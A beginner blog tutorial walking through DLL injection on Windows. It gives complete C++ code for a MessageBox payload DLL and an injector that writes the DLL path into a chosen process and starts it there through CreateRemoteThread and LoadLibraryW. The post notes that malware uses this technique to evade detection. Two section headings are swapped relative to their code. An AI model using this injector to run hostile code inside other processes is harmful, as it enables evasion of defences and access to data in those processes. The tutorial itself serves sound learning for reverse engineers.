


# Process Injection 101: Hello World
_The accompanying source files for this post are on [GitHub](https://github.com/MayerDaniel/ProcessInjection/tree/master/101)._

Process injection is the act of writing arbitrary code into an already-running process and executing it. It is used frequently by red teamers, malware authors, and game hackers because it is a powerful detection evasion technique, can gain you read/write/execute access to sensitive information residing in the target process, and allows you to alter that process's behavior. As a reverse engineer, I have looked at quite a few process injection techniques, and _loosely_ understand how they work, but I have never had to implement one.

There are myriad ways to inject into a running process. Every malware author seemingly knows them, but whenever I google "how to inject into a process", I get a bunch of articles that are bogged down in the weeds where they don't need to be, hand-wavey at parts that I felt warrant more explanation, and none of them linked enough references to the [Windows API docs](https://docs.microsoft.com/en-us/windows/win32/desktop-programming). After reading through a couple of them, this is my attempt to write the article I would have wanted to find. This is the absolute simplest example of process injection I could write and execute on a windows machine.

## DLL Injection via LoadLibrary

Dynamic Link Libraries, or DLLs, are executables designed to contain library code that can be used by multiple programs. One of the ways that a program can call functions from a DLL is via [run-time dynamic linking](https://docs.microsoft.com/en-us/windows/win32/dlls/run-time-dynamic-linking). Run-time dynamic linking which is when a DLL is loaded into the process space of program so that its exported functions can be called. This is great for us, because it means DLLs are designed from the get-go to be mapped into the memory of processes and executed! To learn more about DLLs, the microsoft docs are [here.](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-libraries)


#### What you will need:

* A Windows machine with [Visual Studio](https://visualstudio.microsoft.com/) installed
* A target process to inject into. I use [this command line executable](https://github.com/MayerDaniel/ProcessInjection/blob/master/101/HelloWorld.exe?raw=true) that prints "Hello World" every 1000 ms for this post.
* A debugger that allows you to step through your injector and injectee when your code isn't working. I recommend [x64dbg](https://x64dbg.com/#start).

I won't cover debugging in this tutorial, but if you want an easy-to-follow walkthrough of x64dbg check out this [tutorial from OALabs](https://www.youtube.com/watch?v=4VBVMKdY-yg). Full disclosure, I work with the guys who run OALabs, but I think they make super high quality tutorials/tools that I use and wholeheartedly recommend to beginner reverse engineers.

## Let's get started!

For this project, you will end up creating two different projects within Visual Studio:

* The payload DLL that will get injected into your target process
* The injector which loads your payload into the target process and executes it

### Creating the payload DLL

When creating a new project in Visual Studio, search "dll" in the top bar, and select the basic DLL project template.


Once you have selected a name and filepath for your project, you will be presented with the following code:

```cpp

// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )

{

    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }

    return TRUE;
}

```

This project template contains the skeleton of the `DLLMain` method, which is the entry point for a DLL. It is called in 4 scenarios, as evidenced by the switch statement. For more info on each of the 4 scenarios, refer to the [documentation for DLLMain.](https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain)

For a simple payload, call [MessageBox](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messagebox) for each case in the switch so you can see when DllMain gets called.

```cpp

// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    // NOTE:
    // You can execute code here as well, and it will execute
    // regardless of the value of ul_reason_for_call

    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(
            NULL,
            (LPCWSTR)L"DLL_PROCESS_ATTACH",
            (LPCWSTR)L"In DllMain",
            MB_OK
        );
    case DLL_THREAD_ATTACH:
        MessageBox(
            NULL,
            (LPCWSTR)L"DLL_THREAD_ATTACH",
            (LPCWSTR)L"In DllMain",
            MB_OK
        );
    case DLL_THREAD_DETACH:
        MessageBox(
            NULL,
            (LPCWSTR)L"DLL_THREAD_DETACH",
            (LPCWSTR)L"In DllMain",
            MB_OK
        );
    case DLL_PROCESS_DETACH:
        MessageBox(
            NULL,
            (LPCWSTR)L"DLL_PROCESS_DETACH",
            (LPCWSTR)L"In DllMain",
            MB_OK
        );
        break;
    }

    // NOTE:
    // You can execute code here as well, and it will execute
    // regardless of the value of ul_reason_for_call

    return TRUE;
}

```

After building the project (`ctrl+b`), you can test it with `rundll32.exe`. You need to call an exported function to run your DLL, but since the code above does not export any functions you can just call a bogus function `#1`:

```cpponsole
C:\Windows\System32\rundll32.exe <path to built DLL> #1
```

This will cause an error since you don't have an exported `#1` function, but you can still observe the various MessageBoxes as they trigger.

Great! Now that you have a payload, on to the injector.


### Creating the injector

[LoadLibrary] is a function in the Windows API that will do all of the hard work for us. It loads a DLL into the memory of the calling process and calls `DLLMain`, all you need to do is get your target process to call `LoadLibrary` and the rest is taken care of!

`LoadLibrary` requires the path of the DLL it is loading as an argument, so you need to write your payload DLL's absolute path into your target process. After that string exists within the address space of your target process, the final step is to get the target process to execute `LoadLibrary` with that string as an argument.

To do this, your injector needs to perform just 7 api calls:

* [GetFullPathName] to get the absolute path of your payload DLL, which will be written to your target process
* [OpenProcess] to open a handle to your target process
* [VirtualAllocEx] to allocate a buffer in your target process which will be _where_ the absolute path is written to inside of the target process
* [WriteProcessMemory] to write your payload's path to the allocated buffer inside of your target process
* [GetModuleHandle] to open a handle to kernel32.dll, the DLL that exports LoadLibrary
* [GetProcAddress] to find the address of [LoadLibrary] once you have a handle to kernel32.dll (due to the way windows works, you can assume this address will be the same in your target process - more on that later)
* [CreateRemoteThread] to create a new thread in the target process that will call LoadLibrary with the payload's path as an argument



#### GetFullPathName
To make my injector as easy to follow as possible, I include a bunch of print statements and user prompts, but none of that is necessary. You could hardcode the PID and DLL path if you want, or input them as arguments when you call you injector from the commandline. For my example code, I prompt the user and read `cin`. I also tried to make my variables as self explanatory as possible, but if you don't know what a variable is, check one of the earlier steps to see where it is defined. You can also see the whole source [here](GITHUB).

I open my process handle with the access rights `PROCESS_ALL_ACCESS`, which is the most liberal access rights option available. A good exercise would be to figure out the minimal access rights needed from [here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights) to still make this injector to work.

```cpp
    DWORD PID;
    std::cout << "Please enter the desired PID you wish to inject into:\n";
    std::cin >> PID;

    HANDLE processHandle;
    std::cout << "Attempting to open a handle to the desired process...\n";

	// https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess
	processHandle = OpenProcess(PROCESS_ALL_ACCESS,
                                FALSE,
                                PID);

    if (processHandle == NULL) {
        printf("Failed to open a process for PID %d", PID);
        return 0;
    }

	std::cout << "Handle opened\n"
```

#### OpenProcess
Something that may trip you up is that some strings used in this injector are wide strings (as opposed to ANSI). In wide strings, each character is allotted 2 bytes instead of one. Notice that `absolutePath` is set by `GetFullPathNameW` - the `W` at the end means that the returned path will be a wide string. If you are noticing strange behavior with you injector, ensure you are handling wide strings correctly. The [TEXT()](https://docs.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-text) macro can aid you in making sure you are using the correct encoding behind the scenes.


```cpp
    //you must define BUFSIZE as a constant
    constexpr DWORD BUFSIZE = 4096;

	TCHAR relativePath[BUFSIZE] = TEXT("");
    TCHAR absolutePath[BUFSIZE] = TEXT("");
    SIZE_T absolutePathSize = 0;
    std::cout << "\nHandle opened, please enter the desired DLL you wish to inject:\n";
    std::wcin >> relativePath;

	// https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfullpathnamew
	if (!GetFullPathNameW(relativePath,
         BUFSIZE,
         absolutePath,
         NULL)
        ) {
        printf("Failed to find absolute path for %s", relativePath);
        return 0;
    }
    else {
        absolutePathSize = sizeof(absolutePath);
        wprintf(L"Absolute path: %s, size: %d\n", absolutePath, absolutePathSize);
    }
```


#### VirtualAllocEx

The memory allocation parameter (i.e. `MEM_COMMIT`) definitions can be found [here](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex#parameters).

```cpp
    LPVOID bufferAddressInTargetProcess;
    printf("\nAttempting to allocate buffer of size %d in PID %d...\n", absolutePathSize, PID);

    // https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
    bufferAddressInTargetProcess = VirtualAllocEx( processHandle,
                                                   NULL,
                                                   absolutePathSize,
                                                   MEM_COMMIT | MEM_RESERVE,
                                                   PAGE_EXECUTE_READWRITE);

    if (!bufferAddressInTargetProcess) {
        printf("Failed to allocate buffer in PID %d\n", PID);
        return 0;
    }
```


#### WriteProcessMemory

```cpp
    wprintf(L"Buffer allocated at address %#010x in target process\n\nAttempting to write absolute path to allocated buffer...", bufferAddressInTargetProcess);

    // https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory
    if (!WriteProcessMemory( processHandle,
                             bufferAddressInTargetProcess,
                             absolutePath,
                             absolutePathSize,
                             NULL )
        ) {
        printf("Failed to write absolute path to allocated buffer at %d\n", bufferAddressInTargetProcess);
        return 0;
    }
```


#### GetModuleHandle and GetProcAddress
You can pass the handle returned from `GetModuleHandle` directly into `GetProcAddress` as this is the only place that handle is used. No point in setting it to a variable.

*How come you can find the address of a function you need to call in your target process in the address space of your injector?*

The reason that you can call these functions in the address space of your injector instead of needing to do it in your target process is because you can expect the addresses of `LoadLibrary` to be the same in both processes - this is due to the way that Windows sets up its virtual addressing for processes and shared libraries. [This forum thread](http://www.rohitab.com/discuss/topic/43233-question-about-memory-loaded-module-addresses/) explains it more succinctly than I can, but once you have the offset of `LoadLibrary` in your injector's address space you can assume that it will be valid in your target process.

Another "gotcha" to note here is that `GetProcAddress` returns a the address as type `FARPROC`, but our next call to `CreateRemoteThread` will require the address as type `LPTHREAD_START_ROUTINE`. Since these are both just addresses, you can cast the return value as a void pointer (`LPVOID`), and then recast it as necessary in the `CreateRemoteThread` call.

```cpp
    LPVOID loadLibraryAddress;
    // https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress
    // https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea
    loadLibraryAddress = (LPVOID)GetProcAddress( GetModuleHandle(TEXT("KERNEL32.DLL")),
                                             "LoadLibraryW");
```

#### CreateRemoteThread

Note the casting of `loadLibraryAddress` as discussed in the step above!

```cpp
    std::cout << "\nInjecting...\n";

    HANDLE remoteThread;

    // https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread
    remoteThread = CreateRemoteThread( processHandle,
                                       NULL,
                                       0,
                                       (LPTHREAD_START_ROUTINE)loadLibraryAddress,
                                       bufferAddressInTargetProcess,
                                       0,
                                       NULL
        );
    WaitForSingleObject(remoteThread, INFINITE);

    return 0;
```

And with that, you've done it! All that is left is to identify the PID of your target process (I pretty much always have [Process Hacker](https://processhacker.sourceforge.io/) open) and inject away!



Congrats, you have now run code in the address space of another process! In the [next tutorial](/writings/Process-Injection-102-VirtualProtect/), explore how to modify the behavior of the process you've injected into.

You can find all of the components necessary to recreate this blog [here](https://github.com/MayerDaniel/ProcessInjection/tree/master/101).


[LoadLibrary]: https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya
[GetFullPathName]: https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfullpathnamew
[OpenProcess]: https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess
[VirtualAllocEx]: https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
[WriteProcessMemory]: https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory
[GetModuleHandle]: https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea
[GetProcAddress]: https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress
[CreateRemoteThread]: https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread
